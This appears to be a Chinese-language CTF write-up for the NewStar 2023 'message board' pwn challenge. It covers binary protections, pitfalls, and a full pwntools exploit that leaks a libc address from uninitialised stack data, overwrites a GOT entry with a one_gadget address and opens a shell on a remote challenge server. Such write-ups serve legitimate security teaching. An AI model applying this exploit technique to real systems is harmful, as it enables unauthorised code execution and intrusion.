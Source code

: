 ```yaml
---
title: newstar2023 week4 - message board
date: 2023/10/20 12:00:00
tags:
    - fmt-string
excerpt: 利用栈初始化和one_gadget漏洞，成功在msgboard程序中获取shell。
---
```


## 文件分析

下载`pwn`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

一开始就要拿到puts的地址？how to？  
scanf也只能修改任意地址一次，又要怎么做？

分别利用栈初始化和one_gadget即可

## 踩过的坑

1. libcBase并不是无中生有，而是在栈上存在未初始化的`_IO_2_1_stderr_`
2. 数字会覆盖到栈上；垃圾字符会导致scanf一直输入不了；而'+'能使scanf跳过输入，
不覆盖栈内容
3. ELF里的symbols不止可以找函数，找stderr这样的标签都是可以的
4. got可写，那么可以利用one_gadget来使一个函数直接运行打开shell（但是要注意限制条件）
5. 注意got里的函数是不可写的，只有.got.plt里的函数可写
6. one_gadget在本地不一定是可用的，在我的电脑上就没开起来（但是验证了可行性）

## EXPLOIT

```python
from pwn import *

def payload(lo):
    global sh
    if lo:
        sh = process('msgboard')
        gdb.attach(sh)
    else:
        sh = remote('node4.buuoj.cn', 27179)

    # payload 1, leak _IO_2_1_stderr_
    sh.sendline(b'2 + +') # 
    sh.recvuntil(b'is ') # skip
    sh.recvuntil(b'is ') # skip
    stderr = int(sh.recvline())

    if lo:
        libc = ELF('/usr/lib/libc.so.6')
    else:
        libc = ELF('libc-2.31.so')
    libcBase = stderr - libc.symbols['_IO_2_1_stderr_']
    print(hex(libcBase)) # check it
    putsGotAddr = libcBase + libc.symbols['puts'] # shift

    if lo:
        oneGadget = libcBase + 0xfabcf # r9 == 0 && rdx == 0 && [rsp + 0x70] == 0
    else:
        oneGadget = libcBase + 0xe3b01 # r15 == 0 && rdx == 0

    # payload 2, send puts addr shifted from stderr
    sh.sendline(str(putsGotAddr).encode())

    elf = ELF('msgboard')
    symA = elf.bss(0xa0 - 0x60)
    printfGot = elf.got['__isoc99_scanf']
    offset = (printfGot - symA) // 4 # locate printfGot
    print(offset)

    # payload 3, modify printf to one_gadget
    sh.sendlineafter(b'ons', str(offset).encode()) # idx
    sh.sendlineafter(b'ion', str(oneGadget & 0xffffffff).encode()) # content, 32b
    # now running printf opens shell

    sh.interactive()

```

Done.
